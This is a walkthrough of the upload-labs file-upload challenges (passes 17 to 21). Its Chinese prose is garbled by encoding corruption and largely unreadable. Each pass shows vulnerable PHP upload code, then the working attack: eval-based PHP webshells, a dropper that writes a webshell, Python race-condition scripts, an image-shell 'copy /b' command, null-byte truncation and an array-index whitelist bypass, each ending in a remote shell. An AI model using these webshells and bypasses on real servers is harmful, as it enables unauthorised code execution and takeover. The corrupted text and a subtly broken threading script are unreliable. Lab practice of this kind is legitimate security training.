+ å³é”®ï¼Œç‚¹å‡»å¦å­˜ä¸ºæ–¹å¼ä¿å­˜å›¾åƒä¸º<code>23.gif</code>


+ æˆåŠŸä¿å­˜å›¾åƒ<code>23.gif</code>到指定ä½ç½®


+ 用<code>010Editor</code>打开<code>22.gif</code>，æœç´¢<code>22.gif</code>文件里的<code>php</code>，å‘ç°ä»£ç æ³¨å…¥å¦‚下


+ 用<code>010Editor</code>打开<code>23.gif</code>，æœç´¢<code>23.gif</code>文件里的<code>php</code>


å‘ç°ç»è¿‡äºŒæ¬¡æ¸²æŸ“之å，注入的代ç å¹¶æ²¡æœ‰è¢«æ›¿æ¢åˆ™ä»£ç å¯æˆåŠŸæ‰§è¡Œ


+ 用<code>010Editor</code>打开<code>22.gif</code>å’Œ<code>23.gif</code>，并比较两者的二进制代ç æœ‰ä»€ä¹ˆä¸åŒï¼Œå‘ç°åªæœ‰ä¸€ä¸ªæœ‰å·®å¼‚的地方其他没å˜


+ 打开文件包å«æ¼æ´çš„页é¢


+ 在文件包å«æ¼æ´é¡µé¢çš„网å€å加上<code>?file=å‰é¢å¤åˆ¶çš„已上传gif图åƒçš„地å€</code>，并å›è½¦ï¼Œä»£ç æˆåŠŸæ‰§è¡Œ


+ 在èšå‰‘上添加数æ®å¹¶é…置如下


+ 点击添加，æˆåŠŸæ·»åŠ <code>shell</code>


+ åŒå‡»æˆåŠŸæ·»åŠ çš„<code>shell</code>，æˆåŠŸ<code>getshell</code>


## Pass18 æ¡ä»¶ç«äº‰ä¸€

+ 查看æ示


+ 查看æºç ï¼Œå¦‚下

~~~ shell
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "åªå…许上传.jpg|.png|.gifç±»å‹æ–‡ä»¶ï¼";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错ï¼';
    }
}
~~~


​        ä»æºç çœ‹ï¼ŒæœåŠ¡å™¨å…ˆå°†ä¸Šä¼ çš„文件ä¿å­˜ä¸‹æ¥ï¼Œç„¶å将文件的åç¼€ååŒç™½åå•å¯¹æ¯”；如æœæ˜¯<code>jpg</code>ã€<code>png</code>ã€<code>gif</code>中的一ç§å°±å°†æ–‡ä»¶é‡å‘½å，如æœä¸ç¬¦çš„è¯<code>unlink()</code>函数会删除该文件

​        如æœè¿˜æ˜¯ä¸Šä¼ ä¸€ä¸ªå›¾ç‰‡é©¬ï¼Œè‹¥ç½‘ç«™ä¾æ—§å­˜åœ¨æ–‡ä»¶åŒ…å«æ¼æ´è¿˜å¯åˆ©ç”¨ï¼›å¦‚æœæ²¡æœ‰æ–‡ä»¶åŒ…å«æ¼æ´åˆ™åªèƒ½ä¸Šä¼ ä¸€ä¸ª<code>php</code>木马解æè¿è¡Œï¼›

​        é‚£æ€ä¹ˆæ？上传上å»å°±è¢«åˆ é™¤äº†è¿˜æ€ä¹ˆè®¿é—®ï¼›ä¸æ…Œä¸æ…Œï¼Œä»£ç æ‰§è¡Œè¿‡ç¨‹éœ€è¦è€—费时间了，如æœèƒ½åœ¨ä¸Šä¼ çš„一å¥è¯æœ¨é©¬è¢«åˆ é™¤å‰è®¿é—®å³å¯ï¼Œè¿™ä¸ªå«æ¡ä»¶ç«äº‰ä¸Šä¼ ç»•è¿‡ï¼›

​         å¯åˆ©ç”¨<code>burp</code>多线程å‘包，然åä¸æ–­åœ¨æµè§ˆå™¨è®¿é—®<code>webshell</code>会有一ç¬é—´çš„访问æˆåŠŸï¼›


+ 编写一å¥è¯æœ¨é©¬è„šæœ¬

~~~ php
<?php
    fputs(fopen('AttackScript.php','w'),'<?php @eval($_POST["EighteenSecond"])?>'); 
?>
~~~

把该<code>php</code>文件通过<code>burpsuite</code>ä¸åœé‡æ”¾ï¼Œç„¶åå†å†™<code>python</code>脚本ä¸åœè®¿é—®ä¸Šä¼ çš„文件，总有一ç¬é—´æ˜¯è¿˜æ²¡æ¥å¾—åŠåˆ é™¤å°±å¯è¢«è®¿é—®åˆ°ï¼Œä¸€æ—¦è®¿é—®åˆ°è¯¥æ–‡ä»¶å°±ä¼šåœ¨å½“å‰ç›®å½•ä¸‹ç”Ÿæˆä¸€ä¸ª<code>AttackScript.php</code>的一å¥è¯ã€‚正常渗é€æµ‹è¯•ä¸­è¿™ä¹Ÿæ˜¯å¥½åŠæ³•ï¼Œå› ä¸ºå•çº¯è®¿é—®å¸¦æœ‰<code>phpinfo()</code>的文件没什么效æœï¼Œä¸€æ—¦åˆ é™¤è¿˜æ˜¯æ— æ³•åˆ©ç”¨ï¼›ä½†è¿™åŠæ³•ç”Ÿæˆçš„<code>AttackScript.php</code>æœåŠ¡å™¨ä¸åˆ é™¤ï¼Œå¯ç”¨èšå‰‘è¿æ¥


+ 编写访问脚本<code>AttackScript.py</code>

~~~ python
import requests
url = "http://192.168.31.126:8080/upload-labs/upload/EighteenSecondMethod.php"
while True:
    response = requests.get(url)
    if response.status_code == 200:
        print("ok")
        break
~~~


+ 上传<code>php</code>文件并用<code>burpsuite</code>拦截


+ 进行下一步æ“作å‰ä¸è¦æŠŠ<code>burpsuite</code>的拦截功能关闭了，è¦ä¸€ç›´ä¿æŒæ‹¦æˆªçŠ¶æ€ä»¥è¾¾åˆ°æµ‹è¯•æ›´å¥½çš„效æœï¼›ç„¶å将上传的脚本å‘到测试器


+ é…置下测试器，点击下<code>$清除</code>


+ 设置无é™å‘é€ç©ºçš„<code>payload</code>让其一直上传该文件


+ 把线程设置得高一点åšåˆ°é«˜å¹¶å‘


+ 点击<code>开始攻击</code>ä¸æ–­åœ°å‘é€<code>payload</code>


å¯ä»¥çœ‹åˆ°ä¸Šä¼ è¯¥æ–‡ä»¶çš„æ•°æ®åŒ…ä¸åœåœ°é‡æ”¾


+ BP攻击的åŒæ—¶æˆ‘们也è¿è¡Œ<code>python</code>脚本<code>AttackScript.py</code>，目的是ä¸åœè®¿é—®<code>EighteenSecondMethod.php</code>直到æˆåŠŸè®¿é—®åˆ°ä¸ºæ­¢ï¼Œå½“出ç°`OK`说æ˜è®¿é—®åˆ°äº†è¯¥æ–‡ä»¶ï¼Œé‚£ä¹ˆ<code>AttackScript.php</code>应该也创建æˆåŠŸäº†


+ 将<code>burpsuite</code>的拦截功能解除


+ 用èšå‰‘添加数æ®å¹¶é…置，这里的<code>url</code>是<code>http://192.168.31.126:8080/upload-labs/upload/AttackScript.php</code>，è¿æ¥å¯†ç æ˜¯<code>EighteenSecond</code>


+ æˆåŠŸæ·»åŠ äº†<code>shell</code>


+ åŒå‡»æ•°æ®åæˆåŠŸ<code>getshell</code>


## Pass19 æ¡ä»¶ç«äº‰äºŒ

+ 查看æºç 

​	<code>index.php</code>的代ç å¦‚下

~~~ shell
$is_upload = false;
$msg = null;
if (isset($_POST['submit']))
{
    require_once("./myupload.php");
    $imgFileName =time();
    $u = new MyUpload($_FILES['upload_file']['name'], $_FILES['upload_file']['tmp_name'], $_FILES['upload_file']['size'],$imgFileName);
    $status_code = $u->upload(UPLOAD_PATH);
    switch ($status_code) {
        case 1:
            $is_upload = true;
            $img_path = $u->cls_upload_dir . $u->cls_file_rename_to;
            break;
        case 2:
            $msg = '文件已ç»è¢«ä¸Šä¼ ï¼Œä½†æ²¡æœ‰é‡å‘½å。';
            break; 
        case -1:
            $msg = '这个文件ä¸èƒ½ä¸Šä¼ åˆ°æœåŠ¡å™¨çš„临时文件存储目录。';
            break; 
        case -2:
            $msg = '上传失败，上传目录ä¸å¯å†™ã€‚';
            break; 
        case -3:
            $msg = '上传失败，无法上传该类å‹æ–‡ä»¶ã€‚';
            break; 
        case -4:
            $msg = '上传失败，上传的文件过大。';
            break; 
        case -5:
            $msg = '上传失败，æœåŠ¡å™¨å·²ç»å­˜åœ¨ç›¸åŒå称文件。';
            break; 
        case -6:
            $msg = '文件无法上传，文件ä¸èƒ½å¤åˆ¶åˆ°ç›®æ ‡ç›®å½•ã€‚';
            break;      
        default:
            $msg = '未知错误ï¼';
            break;
    }
}
~~~


​	<code>myupload.php</code>的代ç å¦‚下:

~~~ shell

//myupload.php
class MyUpload{
......
......
...... 
  var $cls_arr_ext_accepted = array(
      ".doc", ".xls", ".txt", ".pdf", ".gif", ".jpg", ".zip", ".rar", ".7z",".ppt",
      ".html", ".xml", ".tiff", ".jpeg", ".png" );

......
......
......  
  /** upload()
   **
   ** Method to upload the file.
   ** This is the only method to call outside the class.
   ** @para String name of directory we upload to
   ** @returns void
  **/
  function upload( $dir ){
    
    $ret = $this->isUploadedFile();
    
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->setDir( $dir );
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkExtension();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );
    }

    $ret = $this->checkSize();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }
    
    // if flag to check if the file exists is set to 1
    
    if( $this->cls_file_exists == 1 ){
      
      $ret = $this->checkFileExists();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }

    // if we are here, we are ready to move the file to destination

    $ret = $this->move();
    if( $ret != 1 ){
      return $this->resultUpload( $ret );    
    }

    // check if we need to rename the file

    if( $this->cls_rename_file == 1 ){
      $ret = $this->renameFile();
      if( $ret != 1 ){
        return $this->resultUpload( $ret );    
      }
    }
    
    // if we are here, everything worked as planned :)

    return $this->resultUpload( "SUCCESS" );
  
  }
......
......
...... 
};
~~~


+ <code>upload()</code>函数大致æ€è·¯å¦‚下

~~~ tex
1. 判断文件是å¦ä¸ºhttp postæ–¹å¼ä¸Šä¼ 
2. 建立文件夹
3. 白åå•éªŒè¯åç¼€å
4. 检查大å°
5. 检查上传文件夹是å¦å­˜åœ¨
6. 移动临时文件到上传目录
7. 对文件进行é‡å‘½å

åŒæ ·çš„逻辑缺陷 ä¸è¿‡æ˜¯ç™½åå• ä¸Šä¼ è·¯å¾„ä¸å¯æ§åˆ¶ 所以上传å«æœ‰æœ¨é©¬çš„白åå•æ–‡ä»¶ é…åˆæ¡ä»¶ç«äº‰å’Œå…¶ä»–æ¼æ´æ¥å®ç°å†™å…¥æœ¨é©¬
~~~


+ 使用正确的版本

~~~ tex
白åå•+æ¡ä»¶ç«äº‰+Apache未知åç¼€å解ææ¼æ´
上传一个Apacheä¸è¯†åˆ«çš„åç¼€å 通过æ¡ä»¶ç«äº‰è®¿é—®php文件 写入木马æˆåŠŸ
注æ„Apache未知åç¼€å解ææ¼æ´é€‚用 php ts 版本 
~~~

~~~ tex
用版本5.5.38的php
~~~


+ 编写脚本

<code>php</code>脚本<code>NineteenScript.php</code>代ç å¦‚下:

~~~ php
<?php
	fputs(fopen('script.php','w'),'<?php @eval($_POST["Nineteen"])?>');
?>
~~~


<code>gif</code>文件<code>NineteenFirst.gif</code>使用<code>Pass16</code>的<code>gif</code>文件


然å使用下é¢çš„命令制造图片马

~~~ shell
copy NineteenFirst.gif/a + NineteenScript.php/b NineteenScript.gif
~~~


å¯çœ‹åˆ°å›¾ç‰‡<code>NineteenScript.gif</code>æˆåŠŸæ³¨å…¥æœ¨é©¬


编写<code>python</code>脚本<code>AttackScript.py</code>如下:

~~~ python
import requests
from threading import Thread

#url = "http://192.168.31.126:80/upload-labs/upload/NineteenFirstMethod.php.html"
url = "http://192.168.31.128:80/upload-labs/include.php?file=upload/NineteenScript.gif"

def request():
    global StatusCode
    global Text
    html = requests.get(url)
    StatusCode = html.status_code
    Text = html.text
    
while True:
    t = Thread(target=request())
    t.start()
    if StatusCode == 200:
        print(Text)
        print("OK")
        break
    else:
        print(StatusCode)
~~~


+ 上传<code>NineteenScript.gif</code>文件到网站


+ 用<code>burpsuite</code>截断


+ 将请求å‘é€åˆ°æµ‹è¯•å™¨


+ é…置测试的攻击


+ 测试器开始攻击并è¿è¡Œ<code>python</code>脚本<code>AttackScript.py</code>进行æ¡ä»¶ç«äº‰


如上图，<code>python</code>脚本<code>AttackScript.py</code>æˆåŠŸè¿ä¸Š<code>NineteenScript.gif</code>并创建åå°è„šæœ¬<code>script.php</code>


+ é…ç½®èšå‰‘è¿æ¥


注æ„生æˆçš„脚本<code>script.php</code>在文件夹<code>upload-labs</code>下而ä¸æ˜¯æ–‡ä»¶å¤¹<code>upload</code>下


+ å°†<code>burpsuite</code>解除截断并测试è¿æ¥ï¼Œæœ€ç»ˆæˆåŠŸ<code>getshell</code>


## Pass20

+ 首先查看æ示


+ 查看æºä»£ç 

~~~ shell
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])) {
    if (file_exists(UPLOAD_PATH)) {
        $deny_ext = array("php","php5","php4","php3","php2","html","htm","phtml","pht","jsp","jspa","jspx","jsw","jsv","jspf","jtml","asp","aspx","asa","asax","ascx","ashx","asmx","cer","swf","htaccess");

        $file_name = $_POST['save_name'];
        $file_ext = pathinfo($file_name,PATHINFO_EXTENSION);

        if(!in_array($file_ext,$deny_ext)) {
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) { 
                $is_upload = true;
            }else{
                $msg = '上传出错ï¼';
            }
        }else{
            $msg = 'ç¦æ­¢ä¿å­˜ä¸ºè¯¥ç±»å‹æ–‡ä»¶ï¼';
        }

    } else {
        $msg = UPLOAD_PATH . '文件夹ä¸å­˜åœ¨,请手工创建ï¼';
    }
}
~~~


+ 产生æ¼æ´çš„代ç 

~~~ shell
$_POSTä¼ å‚导致文件上传路径å¯æ§

$file_name = $_POST['save_name'];
$img_path = UPLOAD_PATH . '/' .$file_name;
~~~


å¯åˆ©ç”¨çš„方法很多

~~~ shell
.user.ini绕过——Pass05
大å°å†™ç»•è¿‡â€”—Pass06
末尾加空格或点或::$DATA绕过——Pass07ã€08ã€09
apache多å缀解æ绕过
POSTå‹00截断绕过
~~~


+ åŸç†

~~~ tex
没有对上传的文件åšåˆ¤æ–­ï¼Œåªå¯¹ç”¨æˆ·è¾“入的文件ååšåˆ¤æ–­
åç¼€å黑åå•
上传的文件å用户å¯æ§
黑åå•ç”¨äºç”¨æˆ·è¾“入的文件åç¼€å进行判断
move_uploaded_file()还有这么一个特性，会忽略æ‰æ–‡ä»¶æœ«å°¾çš„ /.
~~~


+ 编写脚本<code>TwentyFirstMethod.php</code>

~~~ php
<?php
	@eval($_POST['TwentyFirst']);
?>
~~~


+ 上传脚本<code>TwentyFirstMethod.php</code>到网站


+ 上传文件，文件å用%00截断，抓包解ç ï¼›ç”¨<code>burpsuite</code>拦截并修改文件å和存储路径


注æ„：<code>%00</code>截断需è¦<code>gpc</code>关闭，抓包，解ç ï¼Œæ交å³å¯ï¼Œæˆªæ–­æ–‡ä»¶å<code>php</code>版本å°äº<code>5.3.4</code>æ‰è¡Œ


+ <code>burpsuite</code>放包å用å³é”®æ‰“开文件并å¤åˆ¶æ–‡ä»¶çš„路径


+ 用èšå‰‘添加数æ®å¹¶é…置，<code>URL</code>是文件地å€ï¼Œè¿æ¥å¯†ç æ ¹æ®ä¸Šé¢ç¼–写的脚本


+ æˆåŠŸæ·»åŠ æ•°æ®ååŒå‡»æˆåŠŸ<code>getshell</code>


## Pass21

+ 查看æ示


+ 查看æºä»£ç 

~~~ php
$is_upload = false;
$msg = null;
if(!empty($_FILES['upload_file'])){
    //检查MIME
    $allow_type = array('image/jpeg','image/png','image/gif');
    if(!in_array($_FILES['upload_file']['type'],$allow_type)){
        $msg = "ç¦æ­¢ä¸Šä¼ è¯¥ç±»å‹æ–‡ä»¶!";
    }else{
        //检查文件å
        $file = empty($_POST['save_name']) ? $_FILES['upload_file']['name'] : $_POST['save_name'];
        if (!is_array($file)) {
            $file = explode('.', strtolower($file));
        }

        $ext = end($file);
        $allow_suffix = array('jpg','png','gif');
        if (!in_array($ext, $allow_suffix)) {
            $msg = "ç¦æ­¢ä¸Šä¼ è¯¥å缀文件!";
        }else{
            $file_name = reset($file) . '.' . $file[count($file) - 1];
            $temp_file = $_FILES['upload_file']['tmp_name'];
            $img_path = UPLOAD_PATH . '/' .$file_name;
            if (move_uploaded_file($temp_file, $img_path)) {
                $msg = "文件上传æˆåŠŸï¼";
                $is_upload = true;
            } else {
                $msg = "文件上传失败ï¼";
            }
        }
    }
}else{
    $msg = "请选择è¦ä¸Šä¼ çš„文件ï¼";
}
~~~


+ åŸç†

~~~ tex
这一关白åå•éªŒè¯è¿‡ç¨‹ï¼š
--> 验è¯ä¸Šä¼ è·¯å¾„是å¦å­˜åœ¨
--> 验è¯['upload_file']çš„content-type是å¦åˆæ³•ï¼ˆå¯ä»¥æŠ“包修改）
--> 判断POSTå‚数是å¦ä¸ºç©ºå®šä¹‰$fileå˜é‡ï¼ˆå…³é”®ï¼šæ„造数组绕过下一步的判断）
--> 判断fileä¸æ˜¯æ•°ç»„则使用explode('.', strtolower($file))对file进行切割，将fileå˜ä¸ºä¸€ä¸ªæ•°ç»„

例如我上传upload.php.jpg，就会返å›æ•°ç»„ array(3){[0]=>upload,[1]=>php,[2]=>jpg}
--> 判断数组最å一个元素是å¦åœ¨ç™½åå•ä¸­ ç”±äºæ˜¯ç™½åå•æ ¡éªŒ 所以ä¸èƒ½åˆ©ç”¨ $_FILES['upload_file']['name'] 
--> 数组第一ä½å’Œ$file[count($file) - 1]进行拼æ¥ï¼Œå‡1是因为数组下标默认ä»0开始 最åä¿å­˜æ–‡ä»¶åfile_name
--> 上传文件
~~~

~~~ php
explode(separator,string[,limit]) 函数，使用一个字符串分割å¦ä¸€ä¸ªå­—符串，并返å›ç”±å­—符串组æˆçš„数组。
end(array)函数，输出数组中的当å‰å…ƒç´ å’Œæœ€å一个元素的值。
reset(array)函数，把数组的内部指针指å‘第一个元素，并返å›è¿™ä¸ªå…ƒç´ çš„值
count(array)函数，计算数组中的å•å…ƒæ•°ç›®ï¼Œæˆ–对象中的å±æ€§ä¸ªæ•°
~~~


+ å®ç°åŸç†

~~~ tex
想è¦ç»•è¿‡ç™½åå•ä¸Šä¼ ï¼Œå¾ˆæ˜æ˜¾éœ€è¦ä½¿end($file)å’Œ$file[count($file)-1]指å‘ä¸åŒçš„内容，
end($file)是åˆæ³•çš„å缀用äºéª—过白åå•ï¼Œè€Œ$file[count($file)-1]是å®é™…上传的åç¼€
é‚£æ€æ ·æ‰èƒ½è®©æ•°ç»„最å一个元素和$file[count($file)-1]ä¸ä¸€æ ·å‘¢ï¼Ÿ
ç”±äºexplode函数åªèƒ½åˆ†å‰²å­—符串 那么用$_POST['save_name']ä¸Šä¼ ä¸€ä¸ªæ•°ç»„å°±ç»•è¿‡äº†è¿™æ®µä»£ç  
 
 
$file = empty($_POST['save_name'])?$_FILES['upload_file']['name'] : $_POST['save_name'];
if (!is_array($file)) {
	$file = explode('.', strtolower($file));
}


å´æˆä¸ºäº†$file数组那么让数组最å一个元素为åˆæ³•åç¼€

array(3){
['save_name']​​​​​​​[0]=>upload.php
['save_name']​​​​​​​[2]=>jpg
}
正常æ¥è¯´ end($file)=$file[count($file) - 1]  
但我没有上传下标为['save_name']​​​​​​​[1]=>xxx的数组元素 所以2-1=1 数组元素为空
那么$file_name = reset($file) . '.' . $file[count($file) - 1]; ä¿å­˜æˆäº†upload.php空字符 也就是upload.php 
ä»è€Œå®ç°äº†ç»•è¿‡ç™½åå•
~~~


+ 编写脚本<code>TwentyOneSecondMethod.php</code>

~~~ php
<?php
	@eval($_POST['TwentyOne']);
?>
~~~


+ 上传脚本<code>TwentyOneFirstMethod.php</code>到网站并用<code>burpsuite</code>拦截


+ 修改æŸäº›åœ°æ–¹

~~~ tex
我们è¦æ”¹çš„就是下é¢çš„地方

修改content-type 
修改POSTå‚数为数组类å‹ï¼Œç´¢å¼•[0]为`upload-20.php`，索引[2]为`jpg|png|gif`。
åªè¦ç¬¬äºŒä¸ªç´¢å¼•`ä¸ä¸º1`，$file[count($file) - 1]就等价äº$file[2-1]，值为空
~~~


+ 放包之åæˆåŠŸä¸Šä¼ æ–‡ä»¶


+ å³é”®æ‰“开上传文件的地å€å¹¶å¤åˆ¶åœ°å€


+ èšå‰‘添加数æ®å¹¶é…置，<code>URL地å€</code>指之å‰ä¸Šä¼ æ–‡ä»¶çš„地å€ï¼Œè¿æ¥å¯†ç æ ¹æ®ä¹‹å‰ç¼–辑的脚本确定


+ æˆåŠŸé…置数æ®å添加数æ®æˆåŠŸï¼ŒåŒå‡»åæˆåŠŸ<code>getshell</code>


